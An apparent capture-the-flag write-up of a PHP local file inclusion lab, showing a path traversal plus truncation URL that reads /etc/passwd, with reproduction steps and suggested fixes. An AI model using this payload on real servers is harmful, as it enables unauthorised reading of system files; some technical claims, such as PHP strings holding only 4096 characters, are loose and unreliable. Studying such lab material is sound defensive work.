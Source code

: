 # Path Traversal (+ Path Truncation)

## Flag

b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## Description

etc/passwd is a common file (in unix systems) which contains the machine credentials, the etc folder is usually directly inside the root folder.
With Path Traversal, we backtrack inside the filesystem (which is actually not really possible since index.php is in the root folder)
With Path Truncation, we bypass an eventual extention filter (Like concating .php) by sending a 4096 char string.
Php strings can only contain 4096 chars, so a string longer than that will be truncated to 4096 chars.

## URL

https://192.168.56.101/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd

## Steps To Reproduce

Without script, go to this web site : https://www.charactercountonline.com/
Then write etc/passwd, and add combinaisons of `../` before until it reaches exactly 4096 chars.

## Why is it dangerous ?

It's a free ticket for the land of LFI (Local File Inclusion, not La France Insoumise)

## Possible fixes

- Avoid user input in include() or require() functions
- Use int indexes for those ressources and access it using a local database (For exemple a raw key/value dict linking an index and a URI)

## Resources

- https://www.charactercountonline.com/

## Sources

https://security.stackexchange.com/questions/17407/how-can-i-use-this-path-bypass-exploit-local-file-inclusion